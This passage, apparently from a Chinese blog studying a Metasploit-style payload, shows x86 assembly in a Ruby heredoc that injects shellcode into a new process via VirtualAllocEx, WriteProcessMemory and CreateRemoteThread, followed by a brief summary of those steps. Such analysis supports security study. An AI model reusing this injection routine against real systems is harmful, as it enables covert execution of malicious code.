 ```ruby
      ; if we didn't get a new process, use this one
      test eax,eax
      jz payload                ; If process creation failed, jump to shellcode

    goodProcess:
      ; allocate memory in the process (VirtualAllocEx())
      ; get handle
      push 0x40                 ; RWX
      add bh, 0x10              ; ebx = 0x1000
      push ebx                  ; MEM_COMMIT
    EOS
    migrate_asm << <<-EOS
      push ebx                  ; size
      xor ebx,ebx
      push ebx                  ; address
      push [edi]                ; handle
      push 0x3F9287AE           ; hash( "kernel32.dll", "VirtualAllocEx" )
      call ebp                  ; VirtualAllocEx( ...);

      ; eax now contains the destination
      ; WriteProcessMemory()
      push esp                  ; lpNumberOfBytesWritten
      push #{payloadsize}       ; nSize
      ; pick up pointer to shellcode & keep it on stack
      jmp begin_of_payload
      begin_of_payload_return:  ; lpBuffer
      push eax                  ; lpBaseAddress
      push [edi]                ; hProcess
      push 0xE7BDD8C5           ; hash( "kernel32.dll", "WriteProcessMemory" )
      call ebp                  ; WriteProcessMemory( ...)

      ; run the code (CreateRemoteThread())
      push ebx                  ; lpthreadID
      push ebx                  ; run immediately
      push ebx                  ; no parameter
      mov ecx,[esp-0x4]
      push ecx                  ; shellcode
      push ebx                  ; stacksize
      push ebx                  ; lpThreadAttributes
      push [edi]
      push 0x799AACC6           ; hash( "kernel32.dll", "CreateRemoteThread" )
      call ebp                  ; CreateRemoteThread( ...);

      #{exitblock}              ; jmp to exitfunc or long sleep
```

可以总结出其功能主要通过汇编语言实现,基本流程

+ CreateProcessA新建进程,
+ VirtualAllocEx申请内存
+ WriteProcessMemory写入shellcode
+ CreateRemoteThread运行shellcode
